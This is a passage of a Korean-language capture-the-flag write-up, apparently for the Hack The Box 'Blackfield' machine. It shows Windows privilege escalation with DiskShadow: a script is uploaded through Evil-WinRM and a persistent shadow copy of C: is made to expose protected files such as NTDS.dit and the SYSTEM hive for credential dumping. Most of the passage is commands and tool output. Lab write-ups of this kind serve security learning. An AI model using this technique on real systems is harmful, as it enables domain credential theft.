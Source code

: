 
# Privilege Escalation
- [1] SAM SYSTEM 파일을 통한 크레덴셜 덤핑 후 관리자 계정으로 접속 실패했다면, 디스크 섀도잉(Disk Shadowing) 사용해볼 수 있다.  
- [2] [Disk Shadowing](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)를 위한 사전작업을 준비한다.  
  - `set context persistent nowriters` : 생성한 그림자 복사본(Shadow Copy)을 일시적이지 않고, 시스템이 재부팅되어도 유지되도록 설정. 그리고 VSS Writer(애플리케이션, DB 등에서 데이터 무결성을 보장하는 모듈)를 제외하고, 파일 시스템 상태 그대로의 스냅샷을 만듦
  - `add volume c: alias exploit` : C 드라이브를 대상으로 Shadow Copy를 생성하도록 지정하고 그 볼륨을 `exploit` 이라는 별칭으로 지정
  - `create` : 지정된 볼륨(C:)의 Shadow Copy를 실제로 생성
  - `expose %exploit% z:` : 방금 만든 Shadow Copy를 가상 드라이브(z:)로 마운트, 원래는 접근이 제한된 파일(NTDS.dit, SYSTEM 레지스트리 hive 등)도 읽기 전용으로 z: 드라이브에서 접근 가능

```zsh
└─# vim exploit.dsh

└─# cat exploit.dsh 
set context persistent nowriters
add volume c: alias exploit
create
expose %exploit% z:

└─# unix2dos exploit.dsh 
unix2dos: converting file exploit.dsh to DOS format...

[ . . . ]

*Evil-WinRM* PS C:\Temp> upload exploit.dsh
                                        
Info: Uploading /htb/blackfield/recon/exploit.dsh to C:\Temp\exploit.dsh

Data: 120 bytes of 120 bytes copied
                                        
Info: Upload successful!
```

- [3] `diskshadow` 명령어로 C 드라이브의 내용을 Z 드라이브에 마운트한다.  

```zsh
*Evil-WinRM* PS C:\Temp> diskshadow /s exploit.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  7/31/2025 5:10:40 PM

-> set context persistent nowriters
-> add volume c: alias exploit
-> create
Alias exploit for shadow ID {5ba71102-b05c-4eac-af7c-c1bdd7670eba} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {7891e859-9d80-4125-bf46-bd30f4c194b3} set as environment variable.

Querying all shadow copies with the shadow copy set ID {7891e859-9d80-4125-bf46-bd30f4c194b3}

        * Shadow copy ID = {5ba71102-b05c-4eac-af7c-c1bdd7670eba}               %exploit%
                - Shadow copy set: {7891e859-9d80-4125-bf46-bd30f4c194b3}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 7/31/2025 5:10:42 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

```